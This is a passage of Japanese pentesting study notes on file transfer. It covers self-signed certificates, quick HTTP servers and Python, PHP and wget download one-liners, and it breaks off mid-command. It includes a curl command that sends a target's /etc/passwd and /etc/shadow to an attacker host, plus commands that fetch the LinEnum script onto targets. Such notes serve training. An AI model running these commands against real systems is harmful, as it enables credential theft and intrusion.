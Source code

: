 自己署名証明書の作成
```shell-session
openssl req -x509 -out server.pem -keyout server.pem -newkey rsa:2048 -nodes -sha256 -subj '/CN=server'
```

ウェブサーバーは証明書をホストすべきではありません。ウェブサーバーのファイルをホストするために、新しいディレクトリを作成した方がいい
```shell-session
mkdir https && cd https
```
##### 攻撃者側
複数のファイルを取得する
- 自己署名証明書を受け入れるように、`--insecure`を追加する
```shell-session
 curl -X POST https://192.168.49.128/upload -F 'files=@/etc/passwd' -F 'files=@/etc/shadow' --insecure
```


### 簡単なhttpのwebサーバーを立てる方法(HTTP)
##### ターゲット側

- `python3 -m http.server 8080`
- `python3 -m uploadserver`
- `python2.7 -m SimpleHTTPServer`
- `php -S 0.0.0.0:8000`
- `ruby -run -ehttpd . -p8000`
##### 攻撃者側
```shell-session
wget 192.168.49.128:8000/filetotransfer.txt
```

## コードを使ったファイルダウンロード
- ターゲット側でコードを使って、ファイルをダウンロードする
- Linux では **Python、PHP、Perl、Ruby,JavaScript** などの言語が一般的に利用できる
- Windows にもインストールすることは可能(一般的ではないけど)
	- Windows では **`cscript` や `mshta`** などのデフォルトアプリケーションを使って **JavaScript や VBScript** を実行することができる
### 攻撃者側
pythonでHTTPサーバーとかを立ち上げて、アクセスさせる
 ```bash
python3 -m http.server 8080
 ```

  攻撃者サーバーを一時的にwebサーバーとする
### ターゲット側
#### Python2
```shell-session
python2.7 -c 'import urllib;urllib.urlretrieve ("https://raw.githubusercontent.com/rebootuser/LinEnum/master/LinEnum.sh", "LinEnum.sh")'
```
#### Python3
```shell-session
python3 -c 'import urllib.request;urllib.request.urlretrieve("https://raw.githubusercontent.com/rebootuser/LinEnum/master/LinEnum.sh", "LinEnum.sh")'
```
#### PHP
##### File_get_contents()でPHPをダウンロード
```shell-session
php -r '$file = file_get_contents("https://raw.githubusercontent.com/rebootuser/LinEnum/master/LinEnum.sh"); file_put_contents("LinEnum.sh",$file);'
```
##### Fopen()でPHPダウンロード
```shell-session
php -r 'const BUFFER = 1024; $fremote = 
```